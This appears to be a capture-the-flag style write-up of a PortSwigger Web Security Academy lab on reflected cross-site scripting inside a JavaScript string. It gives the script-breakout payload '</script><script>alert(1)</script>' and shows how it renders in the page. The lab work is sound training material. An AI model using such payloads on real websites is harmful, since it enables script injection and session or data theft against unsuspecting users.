 # Reflected XSS into a JavaScript string with single quote and backslash escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

## To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

### step1

search something

![screenshot](./images/lab21.png)

### step2

payload is

```javascript
</script><script>alert(1)</script>
```

enter into search result

```javascript
<script>

var searchTerms = '</script><script>alert(1)</script>';

document.write('<img src="[/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'](https://0a840064042f3b9080d780620032000d.web-security-academy.net/resources/images/tracker.gif?searchTerms=%27+encodeURIComponent(searchTerms)+%27)">');

</script>
```
